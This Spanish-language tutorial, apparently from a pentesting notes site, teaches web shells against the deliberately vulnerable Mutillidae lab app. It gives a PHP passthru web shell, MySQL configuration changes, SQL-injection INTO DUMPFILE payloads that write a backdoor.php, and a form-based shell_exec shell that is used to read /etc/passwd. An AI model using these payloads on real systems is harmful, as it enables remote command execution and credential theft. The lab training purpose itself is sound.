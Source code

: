 # WebShells

Las `WebShells` no es una vulnerabilidad como tal, si no que es un `script` un fragmento de codigo que vamos a injectar en la maquina que esta alojando la aplicacion web de manera que nosotros podamos ganar persistencia en esa maquina, como la ejeccion remota de comandos, etc... Una `WebShell` seria el `payload` (Transladandolo a esos coneptos en los que hablabamos en la explotacion de vulnerabilidades en `hosts`) aprovechando una vulnerabilidad de manera que nosotros podamos injectar ese codigo dejar ese ficherito en el web server y despues poder ejecutar comandos remotamente, ganar persistencia, etc...

La tipica `WebShell` que se suele crear en un fichero seria la siguiente:

```php
<?php echo passthru($_GET['cmd']); ?>
```

Es un codigo en `PHP` que lo unico que hace es recivir un comando/parametro en este caso mediante la URL con la condicion `GET` y lo que hace es que ejecuta ese comando en el sistema operativo de la maquina en la que este alojando este fichero, si conseguimos subir este fichero al web server y accedemos a el mediante la URL y metemos como parametro el llamado `cmd` el cual le pusimos en el fichero seguido de un comando del sistema como `ls, cat, etc...` se nos va a ejecutar en el sistema y nos mostrara la informacion por pantalla.

Muchas veces las organizaciones en vez de tener limitada la lectura de ficheros mediante `mysql` la deslimitan para que pueda tener mas funcionalidades y a causa de esto, nosotros como atacantes podemos aprovechar eso, por lo que vamos a simularlo, haciendo los siguientes cambios en la maquina `ubuntu`.

Abrimos el siguiente archivo mediante la terminal:

```shell
nano /etc/mysql/mysql.conf.d/mysqld.cnf

#Dentro del nano
[mysqld]

secure-file-priv = ""
```

Y añadimos esa linea debajo de `[mysqld]`.

Ahora nos vamos a la siguiente direccion:

```shell
cd /var/www/html
chown -R mysql:mysql mutillidae
chown -R mysql:mysql mutillidae/*
```

Y le damos permisos a `mysql` para la pagina de `mutillidae`.

Despues una vez echo esto, lo que hemos permitido es que la base de datos pueda leer cualquier fichero del servidor, cosa muy habitual en empresas o demas organizaciones, incluso en muchas de ellas vienen por defecto.

Por lo que vamos a escribir con esta vulnerabilidad un `WebShell` y despues con la tecnica del `Path Traversal` vamos acceder a el.

Vamos a irnos en la pagina de `Mutillidae` a cualquier campo que tenga la vulnerabilidad de `SQL Injection` y vamos a escribir la siguiente sentencia:

```
User: ' UNION select null,null,null,null,null,null,null,null,null,'<?php echo passthru($_GET["cmd"]); ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php'-- -
Pass: null
```

Lo que estamos haciendo aqui es que esa `WebShell` de `PHP` la estamos volcando con `INTO DUMPFILE` a un fichero con la siguiente ruta mostrada y lo llamaremos al archivo `backdoor.php`.

Pero para hacerlo mejor, pondremos el siguiente `WebShell` mas que uno simple:

```
User: ' UNION select null,null,null,null,null,null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?>' INTO DUMPFILE '../../../../../var/www/html/mutillidae/src/backdoor.php'-- -
Pass: null
```

Hace el mismo funcionamiento que el anterior, pero es mejorado, que esto lo tendremos en la ayuda de la propia pagina de `Mutillidae`.

Y con esto ya tendriamos el fichero subido en la pagina.

Y ahora utilizando la tecnica de `Path Traversal` haremos lo siguiente para meternos en dicho fichero:

```
URL = http://<IP>/mutillidae/src/index.php?page=backdoor.php
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Nos aparecera como un recuadro en el que podremos insertar un comando que se ejecutara en el sistema.

Si por ejemplo queremos ver el archivo de `passwd` pondremos `cat /etc/passwd`:

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Y podremos verlo en la propia pagina.
